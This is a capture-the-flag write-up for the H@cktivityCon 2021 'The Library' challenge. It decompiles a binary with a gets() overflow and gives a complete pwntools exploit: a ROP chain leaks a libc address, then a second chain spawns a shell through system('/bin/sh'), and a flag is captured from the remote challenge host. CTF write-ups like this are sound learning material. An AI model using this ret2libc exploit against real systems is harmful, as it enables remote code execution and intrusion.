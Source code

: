 # H@cktivityCon 2021 CTF

## The Library


> Welcome to The Library. I'm thinking of a book can you guess it? 
> 
> 362
> 
> [`the_library`](the_library) [`libc-2.31.so`](libc-2.31.so)
>
> author: @M_alpha#3534

Tags: _pwn_ _bof_ _rop_ _x86-64_ _remote-shell_


## Summary

Basic ROP chain; leak libc address; second pass; get a shell.

> I have 10s of these in my repo, so I'll be a bit terse.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE/Canary, easy BOF/ROP.
    

### Decompile with Ghidra

```c
undefined8 main(void)
{
  int iVar1;
  char local_228 [520];
  uint local_20;
  int local_1c;
  FILE *local_18;
  int local_c;
  
  local_18 = (FILE *)0x0;
  local_18 = fopen("/dev/urandom","r");
  if (local_18 == (FILE *)0x0) {
    exit(1);
  }
  fread(&local_20,4,1,local_18);
  fclose(local_18);
  srand(local_20);
  puts("Welcome to The Library.\n");
  puts("Books:");
  for (local_c = 0; local_c < 6; local_c = local_c + 1) {
    printf("%d. %s\n",(ulong)(local_c + 1),*(undefined8 *)(BOOKS + (long)local_c * 8));
  }
  puts("");
  puts("I am thinking of a book.");
  puts("Which one is it?");
  printf("> ");
  gets(local_228);
  local_1c = atoi(local_228);
  iVar1 = rand();
  if (local_1c == iVar1 % 5 + 1) {
    puts("Correct!");
  }
  else {
    puts("Wrong :(");
  }
  return 0;
}
```

`gets` is the vulnerability.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./the_library')

if args.REMOTE:
    p = remote('challenge.ctf.games', 31125)
    libc = ELF('./libc-2.31.so')
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
```

Standard pwntools starter.

```python
pop_rdi = next(binary.search(asm('pop rdi; ret')))

payload  = b''
payload += 0x228 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.main)

p.sendlineafter(b'> ',payload)
p.recvline()
puts = u64(p.recv(6) + b'\0\0')
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

Above is the first pass.  Overflow the buffer with `0x228` (see `local_228` in the decomp) bytes of garbage, followed by a ROP chain that will leak the libc address, then loop back to `main` for a second pass.

Since libc was provided it is not necessary to identify the version of libc.

```python
payload  = b''
payload += 0x228 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter(b'> ',payload)
p.recvline()
p.interactive()
```

With the libc address known, the second pass just starts up a shell.  The `pop_rdi+1` is really just a `ret` used to align the stack.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/hacktivityctf2021/the_library/the_library'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.ctf.games on port 31125: Done
[*] '/pwd/datajerk/hacktivityctf2021/the_library/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fdd87737000
[*] Switching to interactive mode
$ cat flag.txt
flag{54b7742240a85bf62aa6fcf16c7e66a4}
```

